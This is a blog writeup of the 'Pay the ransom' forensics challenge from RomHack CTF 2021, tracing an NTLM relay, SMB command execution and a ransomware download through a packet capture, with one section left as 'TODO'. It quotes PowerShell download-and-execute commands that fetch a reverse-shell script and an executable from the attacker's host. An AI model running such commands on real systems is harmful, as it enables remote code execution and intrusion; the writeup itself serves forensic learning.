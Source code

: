 ```yaml
---
layout: post
title:  "Writeup: RomHack CTF 2021 - Pay the ransom"
#date:   2021-09-21 TBA
---
```


# Writeup: RomHack CTF 2021 - Pay the ransom

This is a writeup for the "Pay the ransom" forensics challenge from RomHack CTF
2021 organized by [HackTheBox](https://www.hackthebox.eu).

As the initial setup for the challenge we receive two files, _invoice.pdf.enc_ and
_capture.pcap_, as well as a brief from the victim saying that their files are
encrypted. Unfortunately I did not copy the message before the CTF ended, so it's
gone for good now. The PCAP file is a network traffic capture file and the enc-file
is presumably one of the victim's files in encrypted form, which they said they
urgently needed to be decrypted.

I used Wireshark to browse the PCAP file. What I usually do with PCAP files in
CTF's is to see what are the most used protocols and quickly scan through the
entire thing to get a very rough overview of what has happened. In this case it
looks like there was some HTTP and SMB traffic at the start of the capture,
followed by plenty of plain TCP packets, and ending with a short HTTP interaction.
My initial hunch for what the large plain TCP stream would be was either an
encrypted communications channel, or an encrypted data transfer. Or both.

In the image below we can see that 192.168.1.8 (presumably the victim) is using
WebDAV to communicate with 192.168.1.16, the attacker, which in turn responds with
an NTLM authentication request. I'm not very familiar with the NTLM protocol, but
based on the capture it looks like the attacker is reusing the authentication
process to impersonate as the victim to the SMB service at 192.168.1.11.

![HTTP-NTLM-SMB]({{site.path_img}}/writeups/romhack2021-ransom-http-ntlm-smb.png)

If we look at the SMB traffic we see that the attacker has now authenticated as
CORP\fcastle. We also see that it is connecting to the \IPC$ share and using
SVCCTL. I don't know much about the details of how utilities like PsExec do
command execution over SMB, but my guess is it looks something like what we see
in this capture file. Following the TCP stream related to the SMB traffic we can
see that there are PowerShell commands being sent to 192.168.1.11.

![SMB PowerShell]({{site.path_img}}/writeups/romhack2021-ransom-tcp-stream-smb.png)

Let's decode that base64-encoded execute.bat:

``` bash
printf "aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADEALgAxADYAOgA4ADAAOAAwAC8AcgBlAHYALgBwAHMAMQAnACkAOwAkAHAAYQByAHQAMQA9ACIASABUAEIAewBuADAAdABfAHAANAB5ADEAbgBnACIA" | base64 -d

# Outputs:
# iex (new-object net.webclient).DownloadString('http://192.168.1.16:8080/rev.ps1');$part1="HTB{n0t_p4y1ng"
```

The attacker seems to have upgraded to a reverse shell. We've also got the first
part of the flag: `HTB{n0t_p4y1ng`.

When looking for _rev.ps1_ and the resulting reverse shell, I noticed that the
+/- buttons in the follow-dialogue are a handy way of browsing the TCP streams.
The HTTP request for _rev.ps1_ is in stream 7 and the shell in 8.

![TCP stream
browsing]({{site.path_img}}/writeups/romhack2021-ransom-browse-stream.png)

The reverse shell was doing some basic enumeration of the system and using
Mimikatz. It also issued the following command:

``` powershell
iex (New-Object System.Net.WebClient).DownloadFile("http://192.168.1.16:8080/music.exe","C:\Users\Public\Music\music.exe")
```

The brief also mentioned that the victim was listening to music while this
happened.

TODO

## This didn't really happen

What you just read was my recreation of how I would have properly solved this
challenge if I had had more than just 2 hours to solve it. After quickly
scanning through the PCAP for used protocols I just filtered to show HTTP
traffic. I saw the request to _/music.exe_ and thought it looked very
suspicious, so I completely skipped part 1. I spent most of the remaining time
reversing _music.exe_ and the rest. At this point I thought I had all the
necessary pieces: the required parameters to decrypt _invoice.pdf.enc_. I
fumbled around with CyberChef to decrypt the file, and had an almost valid PDF
file from the decryption. However, there were plenty of junk bytes at the start
of the resulting file, and I couldn't get a viewer to open it. It was corrupted.
I didn't know how to extract the IV and wasn't sure about the format of the
encrypted file. Nevertheless, at this point it was 3 minutes past the deadline,
so no points for my team :(.

I spent about another hour trying to get the PDF into a valid file and looking
for the first part of the flag. After missing the deadline I eventually realized
that I didn't need the correct IV since the decrypted file was only missing the
first few bytes of a valid PDF header (looks something along the lines of
`%PDF-17...`). When I noticed that the PDF only had the final part of the flag,
I felt both frustrated and relieved. Frustrated because it still wasn't over,
but relieved that it wasn't just a matter of minutes by which I'd missed the
deadline. No need to wonder about "If I had only done X I could've made it!".

Anyway, the challenge was fun and didn't feel too challenging for me, which was
a welcome change. Sometimes it's nice to do challenges where you pretty much
know where you're going for most of the time. I give this challenge seven and a
half bits out of four possible qubits or whatever...
